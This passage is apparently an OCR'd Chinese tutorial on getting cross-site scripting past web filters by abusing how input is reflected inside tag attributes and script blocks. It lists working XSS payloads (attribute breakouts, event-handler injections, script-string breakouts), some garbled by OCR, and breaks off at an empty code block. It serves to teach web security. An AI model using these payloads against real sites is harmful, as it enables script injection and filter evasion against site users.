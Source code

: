 web应用过滤器一个很大的问题是它们不理解上下文黑名单能阻塞单独的javascript脚本，但对于防范XSS却并不是那么有效。原因在于我们并不是每次都需要一个单独的向量来执行javascript脚本，很多时候我们的输入会被反射，这种情况下我们不需要单独的javascript脚本来执行有效的javascript语句，看几个例子：

**属性中的输入反射：**

[code]

    <input value="XSStest" type=text>
[/code]

  
显然我们可以使用  ><imgsrc=x onerror=prompt(0);>,
这样的语句，我们使用>闭合input标签然后插入自己的载荷。然而，有时候我们的<>会被转义或过滤掉，我们可以使用相似的方法绕过并执行我们的javascript脚本

[code]

    autofocusonfocus=alert(1)//
[/code]

基本上我们在最前面使用"来闭合标签中的值然后执行我们的事件处理函数：

[code]

    " onmouseover="prompt(0) x="
    " onfocusin=alert(1) autofocus x="
    " onfocusout=alert(1) autofocus x="
    " onblur=alert(1) autofocus a="
[/code]



**< script>标签中的输入反射：**

[code]

    <script>
    Var x=”Input”; </script>
[/code]

我们现在面临的是不允许<>的情况，因此我们不能使用一个已有的属性如"></script>。然而，在这种情况下我们不需要闭合脚本属性来执行JavaScript，因为我们的输入已经反射在script标签中了。我们可以直接调用alert()、prompt()、confirm()函数执行有效的JavaScript代码，下面的输入会触发一个alert

[code]

    “;alert(1)//
[/code]



双引号和分号会闭合已有的属性，然后alert函数就会执行，这里是它实际执行的情况：

[code]

    <script>
    Var x=”“;alert(1)//”; </script>
[/code]



**非常规的事件监听：**  
很多时候需要在JavaScript中使用非常规的事件处理，如DOMfocusin、DOMfocusout，这些事件让事件监听得到适当的执行

[code]
